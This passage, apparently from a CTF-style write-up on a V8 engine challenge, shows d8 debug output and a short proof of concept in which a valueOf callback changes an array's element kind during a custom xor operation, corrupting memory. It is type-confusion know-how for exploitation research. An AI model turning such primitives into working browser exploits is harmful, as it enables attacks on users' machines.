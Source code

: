 ```
 - enum length: invalid
 - back pointer: 0x0f3e001cb785 <Map[16](HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x0f3e00000a89 <Cell value= 1>
 - instance descriptors #1: 0x0f3e001cb751 <DescriptorArray[1]>
 - transitions #1: 0x0f3e001cb7ed <TransitionArray[4]>
   Transition array #1:
     0x0f3e00000e5d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x0f3e001cb805 <Map[16](HOLEY_DOUBLE_ELEMENTS)>
 - prototype: 0x0f3e001cb11d <JSArray[0]>
 - constructor: 0x0f3e001cae09 <JSFunction Array (sfi = 0xf3e0002b2f9)>
 - dependent code: 0x0f3e00000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

[1.1, 1.2, 1.3]
```
I am not going to explain the whole output, important thing to notice is the type of array = `PACKED_DOUBLE_ELEMENTS`. This map object helps v8 to differentiante between different types of arrays in memory.

Let's try to corrupt memory and see what happens.
```
d8> bad = {valueOf: () => {arr[0] = {}; return 1;}}
{valueOf: () => {arr[0] = {}; return 1;}}
d8> arr.xor(bad)
undefined
d8> %DebugPrint(arr)
DebugPrint: 0xf3e00042be9: [JSArray]
 - map: 0x0f3e001cb845 <Map[16](PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x0f3e001cb11d <JSArray[0]>
 - elements: 0x0f3e00044e21 <FixedArray[3]> [PACKED_ELEMENTS]
 - length: 3
 - properties: 0x0f3e00000725 <FixedArray[0]>
 - All own properties (excluding elements): {
    0xf3e00000d99: [String] in ReadOnlySpace: #length: 0x0f3e00025f85 <AccessorInfo name= 0x0f3e00000d99 <String[6]: #length>, data= 0x0f3e00000069 <undefined>> (const accessor descriptor, attrs: [W__]), location: descriptor
 }
 - elements: 0x0f3e00044e21 <FixedArray[3]> {
           0: 141058
           1: 0x0f3e00044e41 <HeapNumber 1.2>
           2: 141082
 }

 ...
```

Here we are getting `PACKED_ELEMENTS` instead of `PACKED_DOUBLE_ELEMENTS`. This is an indicator that we managed to corrupt the array to not be array of doubles. Important thing to note here is what is currently at arr[0]. If we take a look at our "bad" code we can see we set it to an object, meaning v8 firstly changed to array type to `PACKED_ELEMENTS` to be able to store different types rather than just double. After that xor functionality ran so it xorred the value with 1.
